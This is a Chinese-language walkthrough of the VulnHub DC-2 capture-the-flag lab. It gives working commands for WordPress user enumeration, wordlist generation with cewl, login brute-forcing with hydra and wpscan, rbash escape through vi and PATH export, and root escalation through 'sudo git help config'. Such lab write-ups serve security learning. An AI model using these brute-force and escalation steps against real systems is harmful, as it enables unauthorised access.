 # DC2  

## 简述 
目标站点直接爆破，提权使用不使用sudo也可以进行提权的命令
难点 密码生成 密码爆破  变化的端口地址  shell 变量设置  如何拿到交互的shell 使用sudo 命令进行提权  
靶机地址 https://www.vulnhub.com/entry/dc-2,311/   

## 寻找漏洞
### 踩点，探寻服务  
首先本次靶机需要配置hosts文件让ip地址和dc-2一一进行对应  
![20211017000033](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000033.png)
设置hosts  
![20211017000046](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000046.png)
打开网页发现其中第一个flag  
**第一个flag提示我们使用cewl进行生成密码**  
![20211017000054](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000054.png)


### 密码生成爆破  

使用wpscan对wp站点进行扫描  （wpscan扫描漏洞插件还是需要api所以推荐去官网免费拿一个api）
wpscan --url [url] -e u #扫描网站并且返回wp当中的用户  
生成wordpress的用户  
```
wpscan --url http://dc-2/  --api-token api w -e u  
```  
使用cewl生成一个指定页面的字典，使用字典进入  
```
cewl -w pass url  
```
使用hydra进行爆破  
```
hydra -L login -P pass.txt dc-2 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:<strong>ERROR</strong>' -v  
```
post方式进行提交 ''当中存放访问的网页:登录提交的报文:登录失败的返回信息  
也可以使用wpscan,推荐还是使用wpscan这样就避免使用抓包配置很麻烦的!   
```
wpscan --url -P pass.txt 
```
![20211017000107](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000107.png)
之后我们进入wordpress的后台(可以使用dirsearch进行爆破，我这里是用的通用后台地址)使用jerry账户登录  
查看到flag2  
![20211017000116](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000116.png)
## 提权
我们拿到密码之后发现并不能直接登录ssh的22端口，重新对服务器的ip探测端口    
![20211017000125](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000125.png)
顺利拿到一个权限，同时发现是一个rbash权限  

### 绕过rbash  
**什么是rbash？**   
顾名思义就是restrict bash 受限制的bash  
其中存在很多命令 输出符都不能进行使用  
使用vi绕过rbash  ，查看其中的环境变量顺带设置(export)    
![20211017000138](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000138.png)
export PATH=$PATH:/bin/
**存在的目的？**  
1. 提高安全性  
2. 防止后续的渗透  
3. 创建rbash防止自己输入一些危险的命令  
**如何进行绕过？**  
执行bin/sh[直接执行，cp命令]  
利用常见的编程语言执行bash  
设置环境变量进行执行[vim git等可以操作的命令]  
过程  
vi 打开任意一个文件  然后console当中  
set shell=/bin/sh
![20211017000154](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000154.png)
shell  
![20191123140720.png](https://i.loli.net/2019/11/23/RsqKDr7locLdVFC.png)   
拿到一个bin/sh 就不是rbash了，就能使用很多命令了  
然后在shell当中export查看和设置环境变量就能执行更多的命令
![20211017000208](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000208.png)
**第三个flag提示我们登录到另外一个用户**   
之前直接ssh登录是不行的  

### root提权
登录到另外一个用户，不是root  
```
sudo -l 查看不使用su就能以root执行的命令
```
![20191127193507.png](https://i.loli.net/2019/11/27/45nfB2QSiOzeCIK.png)  
下面就使用git提权  
**第四个flag没有给提示**  
![20211017000331](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000331.png) 
那么下面就尝试使用git去提权
sudo git help config  
![20211017000356](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000356.png)
!/bin/sh  之后 
![20211017000406](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000406.png)  
顺利拿到flag  
## 总结

### 思考&&操作    
使用网页生成密码，进入服务器，绕过rbash之后使用git进行提权
扫描用户  wpscan --url http://dc-2/  --api-token api w -e u    
生成密码  cewl -w pass url   
爆破开始  wpscan --url -P pass.txt  
绕过  rbash export PATH=$PATH:/bin/   
git提权  sudo git help config   !/bin/sh  
### 问题  
**绕过rbash的其他方法**
**如何让rbash坚固**
**git提权的原理**  
**sudo-l 和  find / -perm -u=s -type f 2>/dev/null**

### 链接  
https://www.it2021.com/penetration/409.html  
https://www.freebuf.com/articles/system/188989.html  
http://www.52bug.cn/hkjs/3897.html  
https://www.tunnelsup.com/hash-analyzer/  


